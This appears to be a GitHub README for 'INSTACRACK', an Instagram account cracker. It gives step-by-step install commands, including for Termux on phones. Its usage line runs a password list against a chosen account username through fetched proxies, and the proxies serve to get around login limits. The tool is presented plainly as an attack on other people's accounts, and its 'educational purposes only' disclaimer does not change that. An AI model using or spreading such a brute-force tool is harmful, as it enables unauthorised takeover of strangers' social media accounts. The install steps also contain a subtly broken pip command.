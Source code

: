 <h1>INSTACRACK</h1>

"The Fastest Instagram Account Cracker."

---------------------------------------

*python3 is required!*


git clone https://github.com/Leth4lity/instacrack.git

cd instacrack/

pip install requirements.txt

chmod +x getproxy.sh

bash getproxy.sh && python3 instacrack.py -u <account username here> -p <password list> -px proxy.txt 

<h2>Termux Installation</h2>

pkg install git requests wget curl python3 bash

git clone https://github.com/Leth4lity/instacrack.git

cd instacrack/


           
![instacrack](https://user-images.githubusercontent.com/60785066/177172754-92fb0c03-03c0-4d4d-8353-4f446bcb13df.png)



Please use this for educational purposes only!
